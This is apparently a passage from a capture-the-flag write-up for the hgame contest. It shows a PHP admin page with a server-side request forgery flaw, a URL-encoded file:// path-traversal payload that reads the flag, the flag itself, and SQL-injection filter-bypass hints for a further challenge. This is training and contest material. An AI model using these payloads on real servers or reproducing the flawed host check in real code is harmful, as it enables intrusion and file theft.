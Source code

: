 

admin.php

```php
<?php
include "config.php";
session_start();
if(!isset($_SESSION['username'])) {
    header('Location: index.php');
    exit();
}

function insert_img() {
    if (isset($_POST['img_url'])) {
        $img_url = @$_POST['img_url'];
        $url_array = parse_url($img_url);
        if (@$url_array['host'] !== "localhost" && $url_array['host'] !== "timgsa.baidu.com") {
            return false;
        }   
        $c = curl_init();
        curl_setopt($c, CURLOPT_URL, $img_url);
        curl_setopt($c, CURLOPT_RETURNTRANSFER, 1);
        $res = curl_exec($c);
        curl_close($c);
        $avatar = base64_encode($res);

        if(filter_var($img_url, FILTER_VALIDATE_URL)) {
            return $avatar;
        }
    }
    else {
        return base64_encode(file_get_contents("static/logo.png"));
    }
}
?>

<?php echo insert_img() ? insert_img() : base64_encode(file_get_contents("static/error.jpg")); ?>'>

```

file%3A%2F%2Flocalhost%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag



hgame{pHp_1s_Th3_B3sT_L4nGu4gE!@!}



###  Cosmos的留言板-1

单引号闭合

过滤:select

黑名单:空格
